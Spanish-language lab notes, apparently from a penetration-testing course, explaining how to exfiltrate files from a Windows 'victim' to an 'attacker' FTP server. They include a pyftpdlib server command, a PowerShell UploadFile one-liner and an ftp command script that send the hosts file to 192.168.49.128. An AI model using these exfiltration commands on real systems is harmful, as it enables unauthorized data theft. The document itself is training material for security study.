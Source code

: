 -------------

# Subidas de archivos mediante FTP – Apuntes
##### 1. Contexto
- FTP permite **subir y descargar archivos** entre máquinas.
- Similar a SMB/WebDAV, pero utiliza el puerto **TCP/21**.
- Para permitir subidas, el servidor FTP debe habilitar permisos de escritura (`--write`).

| Rol          | Descripción                                                                   |
| ------------ | ----------------------------------------------------------------------------- |
| **Atacante** | Máquina que ejecuta el servidor FTP. En el ejemplo: `192.168.49.128`.         |
| **Víctima**  | Máquina Windows que se conecta al servidor FTP para subir archivos: `C:\htb`. |

##### 1. Configuración del servidor FTP (Atacante)
1. **Iniciar servidor FTP con Python**:
    `sudo python3 -m pyftpdlib --port 21 --write`
    - `--write`: permite que los clientes suban archivos.
    - Advertencia: asignar permisos de escritura a usuarios anónimos puede ser riesgoso.
2. **Salida típica**:
    `>>> starting FTP server on 0.0.0.0:21`
    
##### 2. Subida de archivos desde la máquina víctima (Windows)

###### a) Usando PowerShell
```
(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')`
```
- El primer parámetro: URL del servidor FTP (atacante).
- El segundo parámetro: archivo local a subir (víctima).
###### b) Usando cliente FTP y archivo de comandos
1. Crear archivo de comandos `ftpcommand.txt`:
```
echo open 192.168.49.128 > ftpcommand.txt echo USER anonymous >> ftpcommand.txt echo binary >> ftpcommand.txt echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt echo bye >> ftpcommand.txt`


```
2. Ejecutar FTP con script:
```
ftp -v -n -s:ftpcommand.txt`
```
- `-s:ftpcommand.txt` indica al cliente que use los comandos del archivo.
- Comandos importantes dentro del script:
    - `USER anonymous`: logueo anónimo.
    - `PUT <archivo>`: sube el archivo al servidor FTP.
    
Resumen:
	La **máquina atacante** monta un servidor FTP que permite escritura.
	La **máquina víctima** se conecta para subir archivos usando PowerShell o cliente FTP.
	Este método es útil cuando se quieren transferir archivos a través de **TCP/21**, especialmente si SMB/WebDAV no están disponibles.

